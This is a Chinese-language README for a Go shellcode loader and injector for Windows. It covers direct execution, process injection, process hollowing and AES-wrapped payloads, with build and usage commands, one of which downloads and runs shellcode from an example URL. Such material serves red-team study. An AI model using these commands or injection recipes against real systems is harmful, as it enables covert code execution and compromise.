# ShellcodeInjecterGo

这是一个用Go语言编写的Windows shellcode执行工具。支持多种shellcode注入方式，包括直接执行、进程注入和进程镂空，并集成了高级的AES加密保护机制。

## 功能特性

- 支持多种shellcode输入方式
    - 直接输入字节 (-i)
    - 从文件读取 (-f)
    - 从URL下载 (-u)
- 支持多种执行方式
    - 直接在当前进程中执行
    - 通过PID注入到指定进程 (-p)
    - 通过进程名注入到指定进程 (-n)
    - 创建并镂空新进程 (-e)
- 安全特性
    - AES-256加密保护
    - 随机IV生成
    - PKCS7填充
- 详细的错误处理和调试信息
- 支持Windows系统

## 系统要求

- Windows操作系统
- Go 1.16或更高版本
- golang.org/x/sys/windows包

## 安装

```bash
# 克隆仓库
git clone https://github.com/10cks/ShellcodeInjecterGo.git

# 进入项目目录
cd ShellcodeInjecterGo

# 构建项目
go build -o ShellcodeInjecterGo.exe
```

## 使用方法

### 命令行参数

```
-i string    直接指定shellcode字节
-f string    从文件加载shellcode
-u string    从URL下载shellcode
-p int       指定注入的目标进程ID（可选）
-n string    指定注入的目标进程名称（可选）
-e string    指定要镂空的可执行文件路径（可选）
-debug       启用调试输出
```

### 使用示例

1. 从URL加载shellcode并直接执行：
```bash
ShellcodeInjecterGo.exe -u http://example.com/shellcode.bin -debug
```

2. 通过进程ID注入shellcode：
```bash
ShellcodeInjecterGo.exe -f shellcode.bin -p 1234
```

3. 通过进程名称注入shellcode：
```bash
ShellcodeInjecterGo.exe -f shellcode.bin -n "notepad.exe"
```

4. 进程镂空执行：
```bash
ShellcodeInjecterGo.exe -f shellcode.bin -e "C:\Windows\notepad.exe"
```

## 技术实现细节

### 加密保护机制
- AES-256 CBC模式加密
- 随机密钥和IV生成
- PKCS7填充标准
- 内存安全处理

### 进程操作
1. 直接执行模式
    - VirtualAlloc
    - RtlMoveMemory
    - CreateThread
    - WaitForSingleObject

2. 进程注入模式
    - OpenProcess
    - VirtualAllocEx
    - WriteProcessMemory
    - CreateRemoteThread

3. 进程镂空模式
    - CreateProcessA（挂起方式）
    - ZwQueryInformationProcess
    - ReadProcessMemory
    - WriteProcessMemory
    - ResumeThread

### 进程查找
- CreateToolhelp32Snapshot
- Process32First/Process32Next
- UTF16字符串处理

## 错误处理

常见错误及解决方案：

1. Access Denied
    - 使用管理员权限运行
    - 检查进程权限
    - 确认目标进程访问权限

2. 内存操作错误
    - 检查系统资源
    - 验证shellcode大小
    - 确认内存分配权限

3. 进程操作错误
    - 确认目标进程存在
    - 验证进程名称/ID正确性
    - 检查进程状态

4. 加密相关错误
    - 验证密钥完整性
    - 检查数据块大小
    - 确认填充正确性

## 安全警告

⚠️ 本工具具有潜在的危险性，可能被滥用：
- 仅可用于授权的安全测试
- 不得用于未经授权的系统
- 不得用于恶意目的
- 使用加密功能时注意密钥管理

## 贡献指南

欢迎提交Pull Request或Issue来改进本项目：
1. Fork本仓库
2. 创建您的特性分支
3. 提交您的改动
4. 推送到您的分支
5. 提交Pull Request

## 免责声明

本工具仅供安全研究和教育目的使用。使用本工具进行任何未经授权的测试或攻击行为，后果由使用者自行承担。作者不对任何滥用或非法使用负责。

## 致谢

- [ChrisPritchard/golang-shellcode-runner](https://github.com/ChrisPritchard/golang-shellcode-runner)
- Windows系统编程文档
- Go语言社区